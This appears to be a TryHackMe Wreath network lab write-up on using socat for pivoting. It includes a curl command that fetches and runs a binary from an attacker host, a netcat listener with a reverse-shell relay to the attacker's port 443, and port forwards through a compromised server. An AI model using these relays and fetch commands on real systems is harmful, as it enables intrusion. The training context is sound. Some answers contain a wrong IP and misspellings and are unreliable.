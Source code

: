 **Task 13: Socat**

Socat is basically a command line based utility that establishes two bidirectional byte streams and transfers data between them.\

For installing this in windows you have to turn of the real time real time protection mode...

Socat makes a very good relay: for example, if you are attempting to get a shell on a target that does not have a direct connection back to your attacking computer, you could use socat to set up a relay on the currently compromised machine. 
This listens for the reverse shell from the target and then forwards it immediately back to the attacking box:

![image](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/81ffbef2-13a0-488f-b119-7020e73300f9)

Socat can be think of as a portal between two networks, like in apex wraiths ult uses portal and connects the two areas, it doesnt get affected
from the fact wether portals are between two different machines or in the same machine

Generally speaking, however, hackers tend to use it to either create reverse/bind shells, or, as in the example above, create a port forward.

Well in my experience if you want to this thing more safely use metasploit, it like a combo tool much better then socat.

Before using socat, it will usually be necessary to download a binary for it, then upload it to the box.

For example, with a Python webserver:-

On Kali (inside the directory containing your Socat binary):

`sudo python3 -m http.server 80`
after executing this command you will see something like this on the terminal

![socat1](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/5494696a-8b61-462f-ac92-8bb5e8745ceb)

Then execute the following command:

    curl ATTACKING_IP/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME

![socat2](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/c80b5b4f-a01d-4169-9ebe-de1a99451d87)

Lets move forward with Reverse Shell Relay..

In this scenario we are using socat to create a relay for us to send a reverse shell back to our own attacking machine (as in the diagram above). 

Like we did in **TASK 7**, by connecting the root machine we collected the private key with the file name id_rsa..

Lets do that again..

1. Start a netcat netcat listener on our attacking box by :

        sudo nc -lvnp 443

2. On the compromised server, use the following command to start the relay:

        ./task13 tcp-l:8000 tcp:ATTACKING_IP:443 &

 By using these commands we can do a reverse shell connection with the target machine...

Now lets see the other topic:

- **Port forwading easy :**

The quick and fast method for creating a port forwader using the socat is quite simple by just opening a port that can listen
to the requests in the compromised server..

The command for doing so is:

    ./socat tcp-l:90,fork,reuseaddr tcp:10.200.57.200:3306 &

This is the command for compromised server i.e 10.200.57.200 and the target is port 3306 of 10.200.57.20..

- **Port Forwarding -- Quiet**

  In similar way we can do quiet like without informaing the target server that we doing a connection on to it

  First of all, on our own attacking machine, we issue the following command:

      socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &

This opens up two ports: 8000 and 8001, creating a local port relay. What goes into one of them will come out of the other. For this reason, port 8000 also has the fork and reuseaddr options set, to allow us to create more than one connection using this port forward.

Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:
    
    ./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &

This makes a connection between our listening port 8001 on the attacking machine, and the open port of the target server. To use the fictional network from before, we could enter this command as:

    ./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &

for more just go through the task filee..

**Q.  Which socat option allows you to reuse the same listening port for more than one connection?**

Ans: Its preset in the question only,  'resue' port, thats bascially address so  `resueaddr` is the ans.

**Q. If your Attacking IP is 172.16.0.200, how would you relay a reverse shell to TCP port 443 on your Attacking Machine using a static copy of socat in the current directory?
Use TCP port 8000 for the server listener, and do not background the process.**

Ans: ./socat tcp-l:8000 tcp:172.16.0.200:443

**Q. What command would you use to forward TCP port 2222 on a compromised server, to 172.16.0.100:22, using a static copy of socat in the current directory, and backgrounding the process (easy method)?**

Ans: `./socat tcp-l:2222,fork,reuseaddr tcp:127.16.0.100:22`

**Q. Bonus Question (Optional): Try to create an encrypted port forward or relay using the OPENSSL options in socat. Task 7 of the shells room may help with this(well dont have money for shell room :)).**

Ans: lets try to solve this using `man` command and see what are the options available for OPENSSL connections

![Screenshot_2023-08-04_03_58_11](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/baead344-3bec-4f85-87ec-6a4b4a8eb910)

  The command will look something like this

Chatgpt for the win lol

# Step 1: Generate SSL certificate and private key
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

# Step 2: Start the SSL server (destination server)
socat OPENSSL-LISTEN:443,reuseaddr,fork,cert=certificate.pem,key=key.pem TCP4:destination_server_ip:destination_server_port &

# Step 3: Start the SSL client (source server)
socat TCP4-LISTEN:local_port,reuseaddr,fork OPENSSL:destination_server_ip:443,cafile=certificate.pem &

# Step 4: Test the encrypted port forward
echo "Hello, World!" | socat - TCP4:localhost:local_port
  
